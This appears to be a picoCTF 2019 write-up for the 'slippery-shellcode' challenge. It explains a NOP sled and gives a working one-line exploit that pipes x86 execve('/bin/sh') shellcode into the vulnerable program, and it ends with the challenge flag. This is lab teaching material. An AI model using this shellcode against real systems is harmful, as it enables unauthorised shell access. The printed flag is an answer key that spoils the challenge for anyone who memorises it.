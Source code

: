 ## slippery-shellcode  

### Problem:  
> This [program](https://2019shell1.picoctf.com/static/b32bc88726ab35fa8151726bb172d772/vuln) is a little bit more tricky. Can you spawn a shell and use that to read the flag.txt? You can find the program in /problems/slippery-shellcode_1_69e5bb04445e336005697361e4c2deb0 on the shell server. [Source](https://2019shell1.picoctf.com/static/b32bc88726ab35fa8151726bb172d772/vuln.c).

Similar to handy-shellcode, except `buf` isn't executed, but offset by a random number between 1 and 256 then executed from the offset location. To account for this, we will prepend a NOP sled (256 * `\x90`) to our `execve(/bin/sh)` shellcode (search on shell-storm.org) and send that in as `buf`. A NOP sled is a sequence of no-operations, each does nothing and moves on to the next instruction. Thus, regardless of what the random offset is and where in `buf` we would execute from, buf's NOP sled would always lead us to the `execve(/bin/sh)` portion.  

Note: `cat` after `echo...` to keep the input stream open.

### Solution:  
```
( echo -en "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80\n"; cat ) | ./vuln
cat flag.txt
```
**Flag: picoCTF{sl1pp3ry_sh311c0d3_2dd645d1}**
